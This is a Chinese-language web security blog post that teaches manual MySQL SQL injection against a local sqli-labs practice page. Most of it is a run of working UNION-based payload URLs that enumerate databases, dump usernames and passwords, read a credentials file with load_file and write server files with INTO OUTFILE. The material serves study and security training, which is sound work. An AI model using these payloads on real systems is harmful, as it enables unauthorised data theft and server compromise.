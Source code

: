 ```yaml
---
layout: post
title: 1.1.1-SQL注入-SQL注入基础-SQL手工注入方法
category: 
  - web安全
tags: 
  - sql注入
  - web安全
abbrlink: 1129050045
date: 2018-06-11 00:00:00
description: more
---
```

## MySQL手工注入
### 01 MySQL数据库结构

![](https://raw.githubusercontent.com/tea9/image/master/blog_img/03/01.png)
![](https://raw.githubusercontent.com/tea9/image/master/blog_img/03/02.png)
![](https://raw.githubusercontent.com/tea9/image/master/blog_img/03/03.jpg)
![](https://raw.githubusercontent.com/tea9/image/master/blog_img/03/04.png)

核心原理：  
MySql内置的infromation_schema库，它功能强大，是我们进行MySql注入的基石！  
![](https://raw.githubusercontent.com/tea9/image/master/blog_img/03/05.png)

	select schema_name from information_schema.schemata // 查库
	select table_name from information_schema.tables where table_schema=库名 // 查表
	select column_name from information_schema.columns where table_name=表名 // 查列
	select 列名 from 库名.表名 // 查数据
	
	
	select column_name from information_schema.columns where table_name=0x7573657273;
	
	
	![](https://raw.githubusercontent.com/tea9/image/master/blog_img/03/06.png)
	
	select group_concat(schema_name) from information_schema.schemata;
	select username,password from security.users limit 0,1;
	
---

### 02 MySQL手工注入方法

![](https://raw.githubusercontent.com/tea9/image/master/blog_img/03/07.jpg)

	http://127.0.0.1/Less-1/?id=2
	http://127.0.0.1/Less-1/?id=2' 注入点
	http://127.0.0.1/Less-1/?id=2' and '1'='1 正常
	http://127.0.0.1/Less-1/?id=2' and '1'='2 报错
	
	http://127.0.0.1/Less-1/?id=2' order by 3--+ 判断字段长度
	http://127.0.0.1/Less-1/?id=2' order by 4--+ 返回错误
	
	http://127.0.0.1/Less-1/?id=2' union select 1,2,3--+
	http://127.0.0.1/Less-1/?id=-1' union select 1,2,3--+ 判断数据显示位置
	
	http://127.0.0.1/Less-1/?id=' union select 1,2,(select group_concat(schema_name) from information_schema.schemata)--+ 提示more than 1 row 查询库名
	http://127.0.0.1/Less-1/?id=' union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema=database())--+ 当前库
	
	http://127.0.0.1/Less-1/?id=' union select 1,2,(select concat_ws('~',username,password) from security.users limit 0,1)--+
	
	http://127.0.0.1/Less-1/?id=' union select 1,2,(select concat_ws(0x7e,username,password) from security.users limit 0,1)--+
	
	http://127.0.0.1/Less-1/?id=' union select 1,2,(select group_concat(username,0x7e,password) from security.users)--+
	
	http://127.0.0.1/Less-1/?id=' union select 1,2,(select database())--+
	
	http://127.0.0.1/Less-1/?id=' union select 1,2,(select load_file('/var/www/html/sql-connections/db-creds.inc'))--+ 读文件
	
	http://127.0.0.1/Less-1/?id=' union select 1,2,(select 'test' into outfile '/var/www/html/sql-connections/t.txt')--+ 写文件
	
	http://127.0.0.1/Less-1/?id=' union select 1,2,(select 'test' into outfile '/tmp/t.txt')--+ 写文件
	
	
	
http://127.0.0.1:90/Less-1/

	



